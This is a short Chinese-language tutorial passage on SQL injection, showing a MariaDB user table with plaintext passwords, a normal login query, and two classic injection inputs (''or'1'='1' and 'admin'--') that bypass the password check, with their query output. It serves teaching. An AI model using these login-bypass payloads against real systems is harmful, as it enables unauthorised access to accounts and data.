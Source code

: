 ### 案例：黑客攻击：SQL注入
1. 假如我们有一个表，如下：
```bash
MariaDB [hellodb]> select * from user;
+------+----------+----------+
| id   | username | password |
+------+----------+----------+
|    1 | admin    | centos   |
|    2 | wang     | centos   |
|    3 | chen     | centos   |
|    4 | li       | centos   |
+------+----------+----------+
4 rows in set (0.01 sec)
```
2. 正常情况下，输入正确的帐号密码可以查询到数据，而错误的则没有。这样来到达用户登录的目的
```bash
MariaDB [hellodb]> select * from user where username="admin" and password="ma";
Empty set (0.00 sec)

MariaDB [hellodb]> select * from user where username="admin" and password="centos";
+------+----------+----------+
| id   | username | password |
+------+----------+----------+
|    1 | admin    | centos   |
+------+----------+----------+
1 row in set (0.00 sec)
```
3. 黑客攻击
构建特殊的帐号密码：`admin`+`'or'1'='1`或`admin'--`+`'`，也能查询到，从而绕过了安全查检。
```bash
MariaDB [hellodb]> select * from user where username="admin" and password=''or'1'='1';
+------+----------+----------+
| id   | username | password |
+------+----------+----------+
|    1 | admin    | centos   |
|    2 | wang     | centos   |
|    3 | chen     | centos   |
|    4 | li       | centos   |
+------+----------+----------+
4 rows in set (0.00 sec)

MariaDB [hellodb]> select * from user where username='admin'--' and password=''';
+------+----------+----------+
| id   | username | password |
+------+----------+----------+
|    1 | admin    | centos   |
|    2 | wang     | centos   |
|    3 | chen     | centos   |
|    4 | li       | centos   |
+------+----------+----------+
4 rows in set, 6 warnings (0.00 sec)

```
